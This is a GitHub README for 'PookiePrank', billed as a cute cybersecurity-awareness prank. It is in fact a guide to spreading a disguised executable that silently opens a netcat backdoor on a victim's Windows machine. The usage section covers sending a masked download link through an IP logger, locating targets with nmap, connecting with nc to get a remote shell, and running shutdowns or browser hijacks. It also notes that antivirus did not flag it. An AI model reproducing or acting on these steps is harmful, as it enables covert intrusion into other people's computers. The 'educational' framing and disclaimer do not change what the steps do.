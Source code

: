 # PookiePrank: A Cute but Terrifying Cybersecurity Awareness Tool 💀🎀


**PLEASE READ THE FULL DOCUMENTATION TO FULLY UNDERSTAND THE PROJECT AND HOW TO MAKE IT ACTUALLY WORK.**
---

## Table of Contents
- [What Is This?](#what-is-this)
- [Features](#features)
- [Why?](#why)
- [Usage](#usage)
- [Responsible Pranking Guidelines](#responsible-pranking-guidelines)
- [Legal Disclaimer](#legal-disclaimer)
- [Future Plans](#future-plans)

## What Is This?

**PookiePrank** is a lightweight "educational" program designed to demonstrate the importance of digital awareness through *strategic chaos*.  
It's a prank tool wrapped in charm — **cute on the outside, spooky on the inside**.

- Uses `netcat` for remote shell access (with full user control)
- Disguised behind a friendly-looking Python CLI
- An educational project that puts a Windows OS to vulnerability (and attacks eventually if not taken care of).
- Perfect for ethical demos, cybersecurity training, and… *light mischief*.

---

## Features

- **Silent Netcat Backdoor:** Triggers a reverse shell silently via batch file.
- **User Distraction UI:** Friendly messages and fake interactions to lower suspicion.
- **Remote Payload Execution:** Once connected, send commands in real-time.
- **Prank Arsenal:** Shutdowns, message popups, browser hijacks, and more.
- **Educational Angle:** Reinforces the dangers of blind trust in random executables.

---

## Why?

Because **security through trauma** works.  
This tool is designed to:

- Raise awareness of how easily social engineering works.
- Show how reverse shells operate.
- Make friends laugh *and* cry.
- Be a conversation starter in any cybersecurity interview.

---

## Usage

1. Host the executable and `netcat` folder.
2. Send the masked download link using a shortened IP logger service.
3. Wait for the target to run the file.
4. Connect to the shell:
- **On target machine (Runs automatically with python script)**.
   ```bash
   nc64 -lvp 4444
   ```
   
- **Attacker's Machine**.
  - **For Linux**
    ```bash
    nc <ip_address_of_the_target_machine> 4444
    ```
  
  - **For Windows**
    ```bash
    nc64 <ip_address_of_the_target_machine> 4444
    ```
    
   - Windows users can download `netcat` tool from [this repository](https://github.com/int0x33/nc.exe/)
   - In Linux, the netcat comes preinstalled.
   - here by `4444` we mean the port on which we are creating the backdoor. and its `4444` in our case. If required, port number can be changed in the `backdoor.bat` file accordingly.
 
   ---

   **NOTE:**
   
   - You will need to know the target ip address beforehand. You can either use IP Loggers or do an `nmap` scan over the local network using the network id which can be obtained by the subnet mask and the ip address of your device.
   
   - If you are on a virtual machine, it is recommended to perform an nmap scan on your host machine since virtual machine results are not accurate.
   
   - **For Windows in Zenmap**
     ```bash
     nmap -sn <network_address_in_cidr_format>
     ```
     
   - **For Linux**
     ```bash
     nmap -sn <network_address_in_cidr_format>
     ```
     
   - For Example:

     If your IP is `192.168.10.247` and subnet is `255.255.255.0`, then your network CIDR is `192.168.10.0/24`

  
   This will list all the IP addresses in a network and we have to find our target from this. We can use the hit and trial method here by using the netcat command.
   

  If port 4444 is open on any IP address, and the netcat command is successful, you're in.



6. Enjoy responsibly (or face karmic doom).
  ---




---

## Responsible Pranking Guidelines

1. No persistence (no startup or registry hacks).

2. No firewall tampering.

3. No data theft or spying.

4. Always reveal the prank eventually.

5. Use only on friends who won't yeet you into oblivion.



---

## Legal Disclaimer

**This project is for educational and ethical use only.
The creator takes no responsibility for misuse or unforeseen Rickroll (or any) damage caused by the same.**


---

## Future Plans

1. Add GUI launcher with meme themes

2. Auto-cancel prank if user types a secret code

3. PookieSec Dashboard™ for multi-prank coordination

4. Add dancing ASCII Rick in the terminal



## One Last Thing...

> **IMPORTANT:** For this prank to work, **you and your target must be on the same network** (e.g., college Wi-Fi, LAN party, cursed hostel internet).  
> Netcat operates over **local IP addresses** unless you're routing through public ports with port forwarding — which we’re *not doing here* (because jail is not part of the prank).
> ⚠️ Antivirus Note:
This project may be flagged by antivirus software due to its reverse shell functionality.
However, during testing, no detection occurred on our system.
Detection results can vary based on the antivirus engine, configuration, and updates.

So yeah — **same Wi-Fi = RickRoll access granted**.

Stay stealthy, stay sassy. 😎🎀

— *PookieSec Ops Out.*
